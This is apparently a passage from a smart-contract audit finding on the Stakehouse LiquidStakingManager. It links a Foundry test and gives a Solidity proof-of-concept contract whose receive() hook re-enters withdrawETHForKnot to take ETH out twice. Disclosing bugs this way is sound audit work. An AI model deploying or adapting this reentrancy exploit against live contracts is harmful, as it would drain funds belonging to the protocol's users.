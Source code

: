     import { MockAccountManager } from "../../contracts/testing/stakehouse/MockAccountManager.sol";

We can add the smart contract below:

[https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12)

    interface IManager {
        function registerBLSPublicKeys(
            bytes[] calldata _blsPublicKeys,
            bytes[] calldata _blsSignatures,
            address _eoaRepresentative
        ) external payable;
        function withdrawETHForKnot(
            address _recipient, 
            bytes calldata _blsPublicKeyOfKnot
        ) external;
    }
    
    contract NonEOARepresentative {
    
        address manager;
        bool state;
    
        constructor(address _manager) payable {
    
            bytes[] memory publicKeys = new bytes[](2);
            publicKeys[0] = "publicKeys1";
            publicKeys[1] = "publicKeys2";
    
            bytes[] memory signature = new bytes[](2);
            signature[0] = "signature1";
            signature[1] = "signature2";
    
            IManager(_manager).registerBLSPublicKeys{value: 8 ether}(
                publicKeys,
                signature,
                address(this)
            );
    
            manager = _manager;
    
        }
    
        function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
            IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
        }
    
        receive() external payable {
            if(!state) {
                state = true;
                this.withdraw("publicKeys1");
            }
        }
    
    }
